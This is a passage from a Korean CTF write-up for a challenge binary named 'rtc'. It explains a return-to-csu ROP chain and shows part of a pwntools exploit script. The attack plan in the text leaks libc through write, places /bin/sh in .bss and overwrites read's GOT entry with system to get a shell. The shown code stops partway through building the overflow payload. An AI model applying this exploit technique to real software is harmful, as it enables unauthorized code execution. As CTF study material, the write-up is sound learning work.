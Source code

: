         따라서 초기에 gadget_1이 수행될때 rbp에 1을 넣으면 gadget_2이 수행되어 cmp를 통과할 수 있다. 이렇게 우리는 계속해서 원하는 함수를 원하는 인자를 넣어 호출할 수 있다.
<br><br><br>
         

- **시나리오**

    방법을 다 익혔으니, 이제 시나리오를 짜보자.

    1. write libc주소 leak하여 libc_base 주소 얻기
    2. .bss 영역에 read함수를 이용하여 /bin/sh 문자열 넣기
    3. .bss + 8 영역에 read함수를 이용하여 main주소 넣기
    4. main의 read를 bof다시 일으키기
    5. 1번에서 구한 libc_base 주소를 이용하여 read함수를 통해 read_got에 system함수 넣기
    6. system함수 실행

(각각의 원하는 함수호출을 위한 인자 세팅은 당연히 다 해줘야함.)

<br><br>
<br><br><br>
### 3. 풀이

---

최종 익스코드는 다음과 같다
```python
from pwn import *
context.log_level="DEBUG"
p=remote("ctf.j0n9hyun.xyz", 3025)
env = {"LD_PRELOAD": os.path.join(os.getcwd(), "./libc.so.6")}
#p=process("./rtc",env=env)
e=ELF("./rtc")
libc=ELF("./libc.so.6")
#gdb.attach(p)

p.recvuntil("\n")

# need value
write_plt=e.plt['write']
read_got=e.got['read']
write_got=e.got['write']
bss_addr=0x601050+0x900
gadget_1=p64(0x4006ba) # pop rbx,rbp,r12,r13,r14,r15, ret;
gadget_2=p64(0x4006a0) # mov rdx,r13; mov rsi,r14; mov edi,r15d; call [r12+8*rbx]; 
               # add rbx,1; cmp rbx,rbp

# setting for write(1,write_got,8)
payload="A"*0x48
payload+=gadget_1
payload+=p64(0) #rbx
payload+=p64(1) #rbp
payload+=p64(write_got) #r12
payload+=p64(8) #r13
payload+=p64(write_got)  #r14
payload+=p64(1) #r15

# call write(1,write_got,8) => leak write libc addr
payload+=gadget_2

# setting for read(0,bss_addr,16)
payload+=p64(0) 
payload+=p64(0) #rbx
payload+=p64(1) #rbp
payload+=p64(read_got) #r12
payload+=p64(16) #r13
payload+=p64(bss_addr)  #r14
```
